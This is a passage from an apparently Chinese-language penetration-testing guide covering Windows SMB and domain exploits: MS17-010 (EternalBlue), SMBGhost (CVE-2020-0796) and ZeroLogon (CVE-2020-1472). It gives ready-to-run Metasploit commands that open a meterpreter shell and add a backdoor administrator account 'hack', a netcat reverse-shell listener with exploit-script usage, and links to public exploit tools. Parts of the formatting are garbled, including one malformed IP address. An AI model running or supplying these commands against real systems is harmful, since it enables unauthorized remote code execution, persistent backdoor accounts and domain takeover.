     
    use exploit/windows/smb/ms17_010_psexec    #漏洞利用 set payload windows/meterpreter/bind_tcp set rhost 192.168.33.33 exploit

`（向右滑动、查看更多）``  
`

    
          *   *   *   *   * 
    
    
    
    use auxiliary/admin/smb/ms17_010_command    #漏洞利用set rhosts=192.168.26.33.33set COMMAND net user hack  hack123 /addset COMMAND net localgroup administrators hack  /addexploit

### （向右滑动、查看更多）

###  

###  **0x04SMBghost（CVE-2020-0796）**

  
https://github.com/ZecOps/CVE-2020-0796-RCE-POCSMB v3远程代码执⾏漏洞获取权限适用：Windows 10
1903-1909

    
          *   * 
    
    
    
    nc -lnvp   <reverse_shell_port>SMBleedingGhost.py <target_ip> <reverse_shell_ip> <reverse_shell_port>

### （向右滑动、查看更多）

``

##  ****

##  ****

##  ****

##  

##  **  0x05ZeroLogon（CVE-2020-1472 **

  
前提:拥有一个普通域用户  
原理：微软在进行AES加密运算过程中，使用了AES-CFB8模式并且错误的将IV设置为全零，这使得攻击者在明文(client
challenge)、IV等要素可控的情况下，存在较高概率使得产生的密文为全零（1/256）。通过碰撞方法，攻击者便完成了域身份认证，修改krbtgt用户密码为空，从而进行DCsync。详细原理:zerologon
特权提升漏洞(CVE-2020-1472)原理分析与验证。  
适用：  
Windows Server 2008 R2  
Windows Server 2012、Windows Server 2012 R2  
Windows Server 2016  
Windows Server 2019、version 1903、1909、2004  
工具：https://github.com/mstxq17/cve-2020-1472
